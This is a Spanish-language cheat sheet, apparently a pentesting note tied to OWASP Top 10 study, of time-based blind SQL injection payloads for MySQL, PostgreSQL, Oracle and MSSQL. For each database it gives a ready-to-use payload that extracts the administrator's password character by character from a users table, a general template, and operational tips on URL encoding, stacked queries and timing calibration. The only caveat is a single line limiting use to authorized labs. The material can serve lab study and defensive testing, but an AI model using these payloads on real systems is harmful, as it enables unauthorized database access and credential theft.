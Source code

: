 
---
# Payloads time-based SQLi para diferentes bases de datos

A continuación presentamos ejemplos de payloads **time-based** para SQLi usando cuatro tipos de bases de datos: [MySQL](MySQL.md), [PostgreSQL](.md), [Oracle](Documento%20Hacker/OWASP%20TOP%2010/Bases%20de%20datos%20db/Oracle.md) y [MSSQL](MSSQL.md) (Microsoft SQL Server ). Incluimos un ejemplo concreto con `username='administrator'` y tabla `users`, y una plantilla general para adaptar a otras tablas o columnas.

---

## 1) MySQL

**Payload concreto:**

```sql
' OR IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', SLEEP(5), 0) -- -
```

**Plantilla general:**

```sql
' OR IF((SELECT SUBSTRING(<COLUMN>, <POS>, 1) FROM <TABLE> WHERE <user_column>='<username>')='<char>', SLEEP(<secs>), 0) -- -
```

**Notas:** `IF(condition,true,false)` y `SLEEP(seconds)` son específicos de MySQL.

### Variantes de MySQL

1. **Inline (más portable, usa subconsulta para obtener el carácter):**

```sql
' OR IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', SLEEP(5), 0) -- -
```

Esto evalúa la subconsulta que devuelve el primer carácter de la contraseña del administrador y duerme 5s si es `d`.

2. **Stacked query (si el driver permite múltiples sentencias):**

```sql
'; SELECT IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', SLEEP(5), 0);-- 
```

Aquí usamos `;` para ejecutar una sentencia independiente que llama a `SLEEP(5)`.

3. **Versión compacta que compara dentro de FROM (menos recomendada por múltiples filas):**

```sql
' AND IF(SUBSTRING(password,1,1)='d', SLEEP(5), 0) FROM users WHERE username='administrator' -- -
```

Puede comportarse de forma ambigua si la consulta devuelve varias filas; preferimos las opciones 1 o 2.

**Notas rápidas:**

- Asegurarnos de escapar/encerrar correctamente las comillas internas (p. ej. `username='administrator'`).

- Codificar la payload si la enviamos en una cookie/URL (`;` → `%3B`, espacios → `%20`).

- Si hay sensibilidad de mayúsculas usar `LOWER(...)` para comparar.

- Si el driver no permite stacked queries, usar la opción 1 (subconsulta) es la más fiable.
    

---

## 2) PostgreSQL

**Payload concreto:**

```sql
' OR (SELECT CASE WHEN substring(password from 1 for 1)='d' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

**Plantilla general:**

```sql
' OR (SELECT CASE WHEN substring(<COLUMN> from <POS> for 1)='<char>' THEN pg_sleep(<secs>) ELSE pg_sleep(0) END FROM <TABLE> WHERE <user_column>='<username>')--
```

**Notas:** `pg_sleep(seconds)` es la función para retrasar la respuesta en PostgreSQL. `substring(col from pos for len)` extrae la subcadena.

---

## 3) Oracle

**Payload concreto:**

```sql
' OR (SELECT CASE WHEN SUBSTR(password,1,1)='d' THEN DBMS_LOCK.SLEEP(5) ELSE 0 END FROM users WHERE username='administrator')--
```

**Plantilla general:**

```sql
' OR (SELECT CASE WHEN SUBSTR(<COLUMN>,<POS>,1)='<char>' THEN DBMS_LOCK.SLEEP(<secs>) ELSE 0 END FROM <TABLE> WHERE <user_column>='<username>')--
```

**Notas:** `DBMS_LOCK.SLEEP(seconds)` es la función equivalente a sleep en Oracle. `SUBSTR(col,pos,len)` devuelve una subcadena.

---

## 4) Microsoft SQL Server (MSSQL)

**Payload concreto:**

```sql
' IF (SUBSTRING(password,1,1)='d') WAITFOR DELAY '00:00:05'--
```

**Plantilla general:**

```sql
' IF (SUBSTRING(<COLUMN>,<POS>,1)='<char>') WAITFOR DELAY '00:00:<secs>'--
```

**Notas:** `WAITFOR DELAY 'hh:mm:ss'` induce un retraso en SQL Server. `SUBSTRING(col,pos,len)` devuelve la subcadena.

---

## Notas operativas comunes

- Preferimos subconsultas inline cuando el motor no permite stacked queries.
    
- Codificamos la payload si se envía en cookies/URL para evitar problemas de transporte (`;` → `%3B`, espacios → `%20`, `'` → `%27`).
    
- Ajustamos `<secs>` a un valor razonable según la latencia de la red y calibramos el umbral en el cliente usando `r.elapsed.total_seconds()`.
    
- Usar solo en entornos autorizados y de laboratorio.
    

---
